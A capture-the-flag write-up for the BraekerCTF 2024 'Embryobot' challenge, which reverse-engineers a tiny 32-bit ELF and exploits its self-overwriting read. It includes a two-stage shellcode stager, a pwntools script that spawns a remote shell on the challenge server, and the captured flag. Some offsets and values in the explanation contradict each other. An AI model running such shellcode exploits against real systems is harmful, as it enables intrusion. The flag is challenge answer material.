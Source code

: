 # BraekerCTF 2024

## Embryobot

> "This part will be the head, " the nurse explains. The proud android mother looks at her newborn for the first time. "However, " the nurse continues, "we noticed a slight growing problem in its code. Don't worry, we have a standard procedure for this. A human just needs to do a quick hack and it should continue to grow in no time."
>
>
>The hospital hired you to perform the procedure. Do you think you can manage?
>
>The embryo is:
f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==
>
>  Author: spipm
>

Tags: _rev_

## Solution
For this challenge we don't get a attached file but there is a string that suspiciously looks like `base64` encoded data. Extracting the data and calling `file` on it gives us some insight. The decoded file is a `ELF` file containing compiled `80386` code. Sadly opening the file with `Ghidra` doesnt give us very good results. 

```bash
$ echo "f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==" | base64 -d > foo
$ file foo
foo: ELF 32-bit LSB executable, Intel 80386, version 1, statically linked, no section header
```

Since the file is onle `76 bytes` small this could be some sort of [`Tiny ELF`](https://nathanotterness.com/2021/10/tiny_elf_modernized.html) with all kinds of hacky packing magic going on. As the article well describes, there are `header parts` that can contain processor instructions even though the parts are not ment to contain executable code. But this way functionality can be interleaved with header data generating very small but functioning executable files.

My approach here is to check out regions that cannot be changed and `nop them out` (writing `nop` instructions to this regions) so that we get a more meaningful `disassembly` result. The full hexdump of the file is small, so here is it for reference. As example, the first 10 bytes are: a 4 byte constant signature (EI_MAG), 2 byte first if the executable is targeting 32 bit architectures and second if data is layed out in little endian byteorder (EI_CLASS, EI_DATA) and 4 bytes describing the version (EI_VERSION) (see [`Executable and Linkable Format`](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)). The signature and class/data cannot be changed so we replace them with `nop` instructions. The EI_VERSION though seems off, it should be `01 00 00 00` so we replace the first byte only, keeping the rest intact for later.

```bash
00000000  7F 45 4C 46  01 01 01 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

Another interesting bit is the `entry pointer` that is located at offset `18h`. As data is stored in little endian order the entry point is at `8048023h`. This containing the `base address of 8048000h` so the offset within our file is `23h` (starting with the bytes `E8  DF FF FF FF   34...`). Lets see if we get this offset in our disassembly, since we know this has to be valid instructions:

```bash
$ objdump -D -Mintel,i386 -b binary -m i386 foo
...
24:   df ff                   (bad)
26:   ff                      (bad)
27:   ff 90 00 20 00 01       call   DWORD PTR [eax+0x1002000]
...
35:   80 04 08 00             add    BYTE PTR [eax+ecx*1],0x0
...
```

Sadly this is not the case, so we go back to nop out the bytes immediately before the `entry` to help the disassembler a bit. Adding just one nop right before our entry offset unveiles the correct instruction:

```bash
22:   90                      nop               ; our nop we added
23:   e8 df ff ff ff          call   0x7        ; call to 7h
28:   34 00                   xor    al,0x0     ; bad code from here
```

Right, the first thing what the program does after loading is to call to offset `7h`. Luckily we didn't destroy the bytes before.

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .........Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 90 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
0:   90                      nop                            ; nops we added before
1:   90                      nop
2:   90                      nop
3:   90                      nop
4:   90                      nop
5:   90                      nop
6:   90                      nop
7:   b0 03                   mov    al,0x3                  ; to this offset the first jump goes. this looks like valid
9:   59                      pop    ecx                     ; code setting up an interrupt call.  calling syscall read (eax=3)
a:   30 c9                   xor    cl,cl                   ; writing to the base address (ecx=base address), reading
c:   b2 12                   mov    dl,0x12                 ; a total of 18h bytes (edx=12h), from fd 0 (ebx=0)
e:   cd 80                   int    0x80
10:  02 00                   add    al,BYTE PTR [eax]       ; ... again nonsense data ...
```

The read offset is calculated by popping the return address off the stack (remember, the programm called to offset 5h and a call pushes the offset of the next instruction onto the stack). But the write goes not to the next instruction, but to the `start of the image`. Why is this, you might ask? If we look at the instruction at offset `59h` we see `xor cl, cl` that effectively sets the lowest 8 bit of register `ecx` to zero, leaving is with the base address only (see [`https://x86.syscall.sh/`](https://x86.syscall.sh/)).

Now we know what the program is doing. It reads input from `stdin` and overrides the program code itself with `18` bytes of data. Its important to note that it's exactly 18 bytes, since the interrupt is called at `0eh` the next two bytes are byte 16 and 17. It's important since these are the next instructions executed when the processor returns from the read interrupt. So we can basically define ourself what the processor does next (for instance jumping back to base to execute shellcode we inject).

So we can basically inject 18 bytes of code ourself. To get us a shell for instance. As 18 bytes is fairly small, we can do two stages. First injecting the same code again, but specifying more bytes that are read and then, when we are not space limited anymore, injecting code that gives us shell. 

So stage one looks like this (18 bytes in total)
```bash
nop
nop
nop
nop
nop
nop
nop
mov     al,0x3        ; same as before...
add     ecx, 0x10     ; ...but we start writing to base+10h 
mov     dl, 0x7f      ; ...and with way more bytes that can be read
int     0x80
jmp     ecx           ; jump back to base address (nop slide down) and read again
```

Right, if we send this (as shellcode) to the program, the program reads again, but now without a strict limitation. Now we can inject any shellcode we like (for comfort just using `shellcraft`). Also we don't write to the base again, but directly starting with the offset the next instruction is executed (10h). The process basically looks like this:

![](process.png)

```python
from pwn import *

p = remote("0.cloud.chals.io", 20922)

stage1 = asm(
"""
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    mov al, 0x3
    add ecx, 0x10
    mov dl, 0x7f
    int 0x80
    jmp ecx
""")

p.send(stage1)
p.send(asm(shellcraft.sh()))
p.interactive()
```

Running this gives us shell and we can get the flag

```bash
$ python blub.py
[+] Opening connection to 0.cloud.chals.io on port 20922: Done
[*] Switching to interactive mode
$ ls
babybot
flag.txt
$ cat flag.txt
brck{Th3_C1rcl3_0f_l1f3}$ exit
[*] Got EOF while reading in interactive
$
```

Flag `brck{Th3_C1rcl3_0f_l1f3}`
